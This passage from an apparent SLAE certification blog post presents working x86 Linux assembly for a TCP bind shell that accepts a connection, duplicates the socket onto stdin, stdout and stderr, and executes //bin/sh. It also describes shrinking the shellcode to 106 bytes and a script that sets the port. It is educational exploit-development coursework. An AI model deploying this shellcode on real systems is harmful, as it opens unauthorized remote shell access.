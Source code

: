 ```asm
    inc ebx             ; SYS_ACCEPT
    push edx            ; NULL (this is also why we needed EDX at line 5)
    push esi            ; Ref to sockid
    mov ecx, esp        ; Address of accept arguments
    int 0x80            ; Exec syscall

    ; dup2(socketid, 0)
    mov ebx, eax        ; Ref to socketid
    xor eax, eax        ; Zero-out EAX
    xor ecx, ecx        ; Zero-out ECX
    mov cl, 0x2         ; Set counter
duploop:
    mov al, 0x3f        ; SYS_DUP2
    int 0x80            ; Exec syscall
    dec ecx             ; Decrement ECX
    jns duploop         ; Loop

    ; execve("//bin/sh", NULL, NULL)
    xor eax, eax        ; Zero-out EAX
    mov al, 0x0b        ; SYS_EXECVE
    push edx            ; Push NULL character to stack
    push 0x68732f6e     ; "hs/n"
    push 0x69622f2f     ; "ib//"
    mov ebx, esp        ; Ref to "//bin/sh" from stack
    inc ecx             ; ECX to 0
    int 0x80            ; Exec syscall
```

This shortens the length of the shellcode from __134__ bytes to __106__ bytes, a full 28 bytes less, or 20% of the original shellcode!

## Making the port configurable
We already prepared the code to accept configurable port numbers. In order to avoid NULL-bytes, we substitute those with __dl__. When we put this in a wrapper-script, the script will convert the provided port into hexadecimals, and uses __dl__ where 0x00 is provided. The full code of the wrapper script can be found in the file [template.sh](https://raw.githubusercontent.com/mrpapercut/SLAE/master/assignment1/template.sh).

## Conclusion
This assignment is solved by first writing the C code, then going through each function to see how it can be translated to x86 assembly. 
After optimizations and creating a template-script for generating assembly code, we end up with a 106 byte TCP Bind shellcode that provides a shell when you connect on the provided port.



This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

https://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1147
